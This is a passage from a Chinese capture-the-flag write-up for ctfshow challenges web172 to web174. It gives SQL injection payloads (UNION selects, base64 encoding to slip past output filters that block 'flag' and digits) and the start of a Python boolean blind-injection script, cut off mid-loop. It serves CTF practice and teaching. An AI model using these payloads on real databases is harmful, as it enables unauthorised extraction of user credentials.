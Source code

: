 方法二: 将用户名字段进行编码，绕过检测

```
-1' union select to_base64(username),password from ctfshow_user2 --+
```

方法三: 只查询密码

```
-1' union select id,password from ctfshow_user2 where username='flag
```



#### web173

过滤要求查询结果中不能出现flag字段

```
//检查结果是否有flag
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

方法一：联合查询

和上题解法一样，只是这题flag在ctfshow_user3

方法二：

只查询password

```
-1' union select id,id,password from ctfshow_user3 where username='flag
```

方法三: 将用户名字段进行编码，绕过检测

```
-1' union select to_base64(username),password from ctfshow_user3 --+
```



#### web174

输出时增加了过滤数字

```
//检查结果是否有flag和数字
    if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
      $ret['msg']='查询成功';
}     
```

由于flag中含有数字，哪怕像之前的通过to_base64等编码后，仍然不可避免数字的出现

所以这题我们要用到布尔盲注

放个脚本

```python
# @Author:Y4tacker
import requests

url = "http://e076200d-5e74-4121-b2fc-04153243f7a3.chall.ctf.show/api/v4.php?id=1' and "

result = ''
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

```